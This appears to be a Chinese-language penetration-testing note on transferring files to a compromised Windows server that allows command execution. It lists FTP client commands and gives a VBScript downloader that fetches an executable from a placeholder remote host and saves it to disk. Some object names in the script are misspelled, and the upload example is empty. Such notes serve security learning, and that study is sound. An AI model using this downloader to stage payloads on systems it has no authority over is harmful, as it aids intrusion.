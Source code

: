 


## <font color=red> 上传和下载</font>
>对于不能上传Shell，但是可以执行命令的Windows服务器，可在shell环境中进行上传下载操作

#### 1.利用FTP上传文件
在本地或vps搭建FTP服务器

常用FTP命令
```bash
open 192.168.0.10    # 连接服务器
cd <目录>
lcd <文件夹路径>    # 定位本地文件夹(上传文件的位置或者下载文件的保存位置)
type    # 查看的当前的传输方式(默认是ASCII码传输)
ascii    # 设置传输方式为ascii（传输txt等）
binary    # 设置传输方式为二进制传输（传输exe图片视频声音等）
close        # 结束与服务器的FTP对话
quit    # 结束与服务器的FTP对话并推出FTP环境
put <文件名> [newname]    # 上传，如果不指定newname，就为原名字
send <文件名> [newname]    # 上传，如果不指定newname，就为原名字
get <文件名> [newname]    # 下载，如果不指定newname，就为原名字
mget filename [filename]  # 下载多个文件。支持空格和"?"两个通配符（比如: mget .mp3 表示下载FTP服务器当前目录下拓展名为mp3的文件）

```


#### 2. 利用VBS上传文件
主要是是使用`msxm12.xmlhttp`和`adoab.stream`

上传
```vbs

```

下载
```vba
//把下面的命令以此保存到文件（比如 echo "xxxxxxx" >> download.vbs）
Set Post = CreateObject("Msxm12.XMLHTTP");
Set Shell = CreateObject("Wscript.Shell");
Post.Open "GET","http://xxxx/target.exe"
Post.Send();
Set aGet = CreateObject("ADODB.Stream");
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody);
aGet.SaveToFile "C:\\test\target.exe",2


//保存为download.vbs后，然后执行下面的命令
cscript download.vbs

```
